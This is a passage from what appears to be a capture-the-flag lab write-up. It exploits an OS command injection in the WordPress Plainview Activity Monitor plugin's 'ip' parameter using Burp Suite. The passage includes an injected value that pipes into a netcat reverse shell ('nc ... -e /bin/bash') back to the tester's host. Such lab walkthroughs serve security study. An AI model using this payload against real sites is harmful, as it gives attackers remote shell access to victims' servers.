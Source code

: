 

## Exploitation
### Command Injection

The Plainview Activity Monitor plugin before 20180826 for WordPress is vulnerable to OS command injection via shell metacharacters in the ip parameter of a wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools request. 

The POC (Proof of Concept) you can download it [here](https://www.exploit-db.com/exploits/45274).

Following the instructions, we need to inject the **IP or integer** field, start BurpSuite and check if the **Intercept is on** button is enabled, then we type an IP address and click on **Convert**.

![](/assets/images/dc6/screenshot-4.png)

The request was intercepted, then we set up a netcat listener on port 443 and typed the following netcat command as shown bellow.

```bash
192.168.179.187 | nc 192.168.179.1 443 -e /bin/bash
```
